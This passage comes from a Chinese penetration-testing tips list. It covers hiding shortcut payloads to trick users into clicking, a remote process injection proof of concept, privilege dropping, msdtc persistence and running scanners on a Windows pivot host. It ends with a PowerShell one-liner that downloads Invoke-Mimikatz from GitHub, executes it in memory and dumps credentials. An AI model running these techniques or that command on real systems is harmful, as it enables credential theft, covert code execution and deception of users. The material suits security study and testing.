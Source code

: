 参考：

《Study Notes Weekly No.3(Use odbcconf to load dll &amp; Get-Exports &amp; ETW USB Keylogger)》

#### Tips 21. 快捷方式的参数隐藏技巧

将payload放置在260个空字符之后，这样无法在文件属性查看payload，可以用来在快捷方式中隐藏payload，欺骗用户点击，隐蔽执行代码

参考：《渗透技巧——快捷方式文件的参数隐藏技巧》

#### Tips 22. 32位程序能够对64位进程进行远程注入

POC：

https://github.com/3gstudent/CreateRemoteThread/blob/master/CreateRemoteThread32to64.cpp

参考：《32位程序对64位进程的远程注入实现》

#### Tips 23. system权限的进程在某些情况下需要进行降权

使用sytem权限的进程可能会遇到以下问题:

1.无法获得当前用户的文件内容

例如无法捕获用户的屏幕

2.环境变量有差异

因此需要降权到当前用户

降权方法1：使用SelectMyParent.exe

代码下载地址：https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/Processauthority.cpp

参考：

《渗透技巧——程序的降权启动》

降权方法2：使用msdtc

使用msdtc会以system权限加载oci.dll，但在管理员权限cmd执行：

msdtc -install

启动的calc.exe为high权限

参考：

《Use msdtc to maintain persistence》

#### Tips 24. 通过命令行能够对Windows系统安装WinPcap，这样就可以在Windows跳板上使用nmap和Masscan

参考：《渗透技巧——Windows平台运行Masscan和Nmap》

#### Tips 25. Windows平台执行mimikatz的方法

方法1：通过powershell

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
